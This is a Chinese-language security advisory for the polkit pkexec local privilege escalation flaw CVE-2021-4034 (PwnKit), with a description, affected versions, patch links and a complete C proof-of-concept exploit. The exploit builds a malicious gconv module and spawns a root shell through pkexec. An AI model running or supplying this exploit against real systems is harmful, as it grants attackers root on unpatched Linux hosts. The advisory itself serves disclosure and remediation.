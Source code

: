 ```yaml
---
title: polkit的pkexec中的本地权限提升漏洞（CVE-2021-4034）
---
```


﻿# polkit的pkexec中的本地权限提升漏洞 (CVE-2021-4034)

## 遵纪守法

任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益

## 漏洞描述

polkit 的 pkexec 实用程序中存在一个本地权限提升漏洞。当前版本的 pkexec 无法正确处理调用参数计数，并最终尝试将环境变量作为命令执行。攻击者可以通过控制环境变量来利用这一点，从而诱导 pkexec 执行任意代码。利用成功后，会导致本地特权升级，非特权用户获得管理员权限。

## 风险等级

高危

## 影响版本

由于为系统预装工具，目前主流Linux版本均受影响。

## 资产确定

主流linux

## 漏洞检测

**POC**

```
/*
 * Proof of Concept for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034) by Andris Raugulis <moo@arthepsy.eu>
 * Advisory: https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>\n"
	"#include <stdlib.h>\n"
	"#include <unistd.h>\n\n"
	"void gconv() {}\n"
	"void gconv_init() {\n"
	"	setuid(0); setgid(0);\n"
	"	seteuid(0); setegid(0);\n"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
	"	exit(0);\n"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

## 漏洞复现

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/f3661802ec6148638346c518cecd28cc.png)

## 修复建议

**通用修补建议**
根据影响版本中的信息，排查并升级到安全版本

**临时修补建议**
目前各Linux发行版官方均已给出安全补丁，建议用户尽快升级至安全版本，或参照官方说明措施进行缓解，CentOS、Ubuntu及Debian用户可参考以下链接：
https://ubuntu.com/security/CVE-2021-4034
https://access.redhat.com/security/cve/CVE-2021-4034
https://security-tracker.debian.org/tracker/CVE-2021-4034
